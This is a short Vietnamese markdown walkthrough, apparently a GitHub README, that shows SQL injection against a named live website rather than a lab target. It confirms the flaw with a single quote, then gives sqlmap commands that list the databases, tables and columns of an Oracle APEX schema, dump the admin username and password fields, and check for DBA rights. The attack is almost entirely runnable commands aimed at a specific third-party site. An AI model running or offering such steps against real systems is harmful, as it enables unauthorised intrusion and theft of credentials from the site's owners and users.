

# Triển khai WEB
#### Thực hiện test trên web site `https://www.dmr.st/DMRSITE/articolo.php?id_content=721`
#### Tiến hành kiểm tra xem web site này có dính lỗi SQL injection không bằng lệnh.
#### `https://www.dmr.st/DMRSITE/articolo.php?id_content=721'`
#### Ta thấy rằng web site này đã bị dính lỗi sqli

#### Lấy ra danh sách database mà web site sử dụng.
#### `sqlmap.py -u "https://www.dmr.st/DMRSITE/articolo.php?id_content=721" --dbs`

...v.v

#### Lấy ra version mà web sử dụng thì ta thấy rằng website sư dụng `Oracle`

#### Lấy ra các bảng từ một database 
#### `sqlmap.py -u "https://www.dmr.st/DMRSITE/articolo.php?id_content=721" -D APEX_200200 --tables`

#### Từ các bảng tìm được ta tiến hành lấy ra các cột có trong bảng.
#### `sqlmap.py -u "https://www.dmr.st/DMRSITE/articolo.php?id_content=721" -D APEX_200200 -T WWV_FLOW_FND_USER --columns` 

#### Tiến hành lấy ra thông tin username và password của admin.
#### `sqlmap.py -u "https://www.dmr.st/DMRSITE/articolo.php?id_content=721" -D APEX_200200 -T WWV_FLOW_FND_USER -C USER_NAME,WEB_PASSWORD2 --dump`

#### Tiếp theo xác định nó có phải tài khoản `sa` không sử dụng lệnh
#### `sqlmap.py -u "https://www.dmr.st/DMRSITE/articolo.php?id_content=721" --is-dba`
#### kết quả cho thấy tài khoản admin là tài khoản sa

